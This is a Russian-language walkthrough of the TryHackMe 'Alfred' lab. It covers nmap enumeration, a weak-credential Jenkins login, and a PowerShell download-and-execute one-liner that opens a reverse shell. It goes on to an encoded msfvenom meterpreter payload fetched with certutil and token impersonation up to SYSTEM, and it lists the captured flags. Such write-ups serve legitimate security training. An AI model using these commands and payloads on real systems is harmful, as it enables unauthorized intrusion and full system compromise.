







# TryHackMe - Win Easy - Alfred

📅 Дата: 2025-07-03  
🧠 Сложность: Easy  
💻 IP-адрес: 10.10.106.17  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -n --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.106.17 && nmap_ctf $ip
```

🖼️ Nmap скан:
```bash
PORT     STATE SERVICE        VERSION
80/tcp   open  http           Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Issuer: commonName=alfred
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2025-07-02T11:26:16
| Not valid after:  2026-01-01T11:26:16
| MD5:   abe9:1995:6209:4d13:3fb2:6628:8648:36cc
|_SHA-1: 50c7:53f7:ae31:b4ec:9e69:29d8:17cf:fd07:7cf3:6396
|_ssl-date: 2025-07-03T12:21:41+00:00; +5s from scanner time.
8080/tcp open  http           Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Phone|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%), Microsoft Windows Embedded Standard 7 (86%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.040 days (since Thu Jul  3 07:24:30 2025)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4s

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   220.21 ms 10.21.0.1
2   ... 30

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  3 08:21:37 2025 -- 1 IP address (1 host up) scanned in 51.92 seconds
```

---

## 🕵️ Enumeration

Login weak creds


Project -> Configure


Вероятный RCE



## 📂 Получение доступа

Скачиваю https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
Запускаю сервер и netcat
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Alfred/exploits]
└─$ python3 -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Alfred/exploits]
└─$ nc -lvnp 4444                                                                   
listening on [any] 4444 ...
```

Команда для вставки в Jenkins
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.21.104.16:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.21.104.16 -Port 4444
```



Получаю реверс


И читаю флаг
```bash
PS C:\Users\bruce\Desktop> more user.txt
79007a09481963edf2e1321abd9ae2a0

PS C:\Users\bruce\Desktop> cd c:\\Users\\Public
PS C:\Users\Public>
```


## ⚙️ Привилегии

Создаю оболочку meterpreter, в названии удобно указывать порт для прослушивания.
Запускаю msfconsole **multi/handler**
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Alfred/exploits]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.21.104.16 LPORT=5555 -f exe -o meter-5555.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: meter-5555.exe
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Alfred/exploits]
└─$ msfconsole                                                                   
msf6 exploit(multi/handler) > set lhost 10.21.104.16
lhost => 10.21.104.16
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.21.104.16     yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.21.104.16:5555 
```

Загружаю её на жертву
```bash
PS C:\Users\Public> certutil -urlcache -f http://10.21.104.16:8000/meter-5555.exe meter-5555.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\Users\Public> dir

    Directory: C:\Users\Public

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d-r--         7/14/2009   6:08 AM            Documents                         
d-r--         7/14/2009   5:54 AM            Downloads                         
d-r--         7/14/2009   5:54 AM            Music                             
d-r--         7/14/2009   5:54 AM            Pictures                          
d-r--        11/21/2010   7:16 AM            Recorded TV                       
d-r--         7/14/2009   5:54 AM            Videos                            
-a---          7/4/2025   5:02 AM      73802 meter-5555.exe
```

Запускаю и получаю оболочку meterpreter


Список включенных привилегий:
```powershell
PS C:\Users\Public> whoami /priv                                                                                   
                                                                                                                   
PRIVILEGES INFORMATION                                                                                             
----------------------                                                                                             
                                                                                                                   
Privilege Name                  Description                               State                                    
=============================== ========================================= ========                                 
SeDebugPrivilege                Debug programs                            Enabled 
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
```

На сайте:
```
You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.
Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.
```

Подгружаю модуль incognito и запускаю
```bash
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > use incognito
[!] The "incognito" extension has already been loaded.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

Выполняю миграцию в другой процесс от System
```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User                          Path
 ---   ----  ----                ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System              x64   0
 396   4     smss.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 404   1832  cmd.exe             x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 524   516   csrss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe


meterpreter > migrate 668
[*] Migrating from 2652 to 668...
[*] Migration completed successfully.
meterpreter > shell
Process 748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\\Windows\\System32\\config
cd c:\\Windows\\System32\\config

c:\Windows\System32\config>more root.txt
more root.txt
dff0f748678f280250f25a45b8046b4a
```


## 🏁 Флаги

- User flag: 79007a09481963edf2e1321abd9ae2a0 
- Root flag: dff0f748678f280250f25a45b8046b4a 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, meterpreter, msfconsole, python, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  

🛡 **Советы по защите:**


